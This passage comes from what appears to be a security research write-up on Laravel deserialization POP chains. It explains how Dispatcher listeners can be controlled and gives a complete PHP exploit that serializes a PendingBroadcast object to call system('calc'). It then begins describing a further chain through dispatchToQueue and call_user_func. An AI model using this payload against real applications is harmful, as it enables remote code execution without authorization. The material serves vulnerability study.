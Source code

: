 ![](https://p5.ssl.qhimg.com/t01882a2ac886bde391.png "undefined")

See how the value of `$listener` comes from, follow up on the `getListeners()` method. Here you can first control the value of `$listener` through the controllable variable `$this->listeners[$eventName]`, then enter the combination function, call the `getWildcardListeners()` method, follow up and take a look. After the default settings are executed, it will return `$wildcards = []`, and then return to the value of `$this->listeners[$eventName]` after the combination function merge is still `$this->listeners[$eventName]`, and then enter the `class_exists()` function. Since there is no class name for the command execution function, you can still return the value of `$this->listeners[$eventName]`

![undefined](https://p4.ssl.qhimg.com/t014aca56b2a02516aa.png "undefined")

After controlling the value of `$listener`, use the passed value of `$event` as the parameter value of the command execution function to perform RCE operation

### exp
```php
<?php
namespace Illuminate\Events {
    class Dispatcher {
        protected $listeners = [];
        public function __construct() {
            $this->listeners = ["calc" => ["system"]];
        }
    }
}



namespace Illuminate\Broadcasting {
    use Illuminate\Events\Dispatcher;
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct() {
            $this->events = new Dispatcher();
            $this->event = "calc";
        }
    }
    echo base64_encode(serialize(new PendingBroadcast()));
}
?>
```
### POP chain utilization flow chart

![undefined](https://p3.ssl.qhimg.com/t0168ad9a2bff687e2f.png "undefined")

## POP Chain-6
Continue to follow the `dispatch()` method, follow the `dispatch()` method in `src/Illuminate/Bus/Dispatcher.php`, notice that if the method is judged to be true, it will enter the `dispatchToQueue()` method, follow the `dispatchToQueue()` method and find the `call_user_func()` method.

